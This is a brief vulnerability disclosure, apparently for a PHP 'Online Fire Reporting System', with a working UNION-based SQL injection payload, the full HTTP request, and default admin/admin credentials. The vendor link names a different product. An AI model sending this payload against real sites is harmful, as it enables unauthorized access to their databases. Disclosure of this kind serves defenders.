 # Online Fire Reporting System v1.0  has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/applicants/index.php?view=view&id=

Vulnerability location: /eris/admin/applicants/index.php?view=view&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/applicants/index.php?view=view&id=-2%27%20union%20select%201,2,3,4,5,6,database(),8,9,10,11--+ // Leak place ---> id

```sql
GET /eris/admin/applicants/index.php?view=view&id=-2%27%20union%20select%201,2,3,4,5,6,database(),8,9,10,11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849174-963d07c5-d498-446e-b8e5-b834c6c1c4f4.png)


![image](https://user-images.githubusercontent.com/54017627/170849170-e85f655d-3180-4a60-abac-0f26005b0093.png)
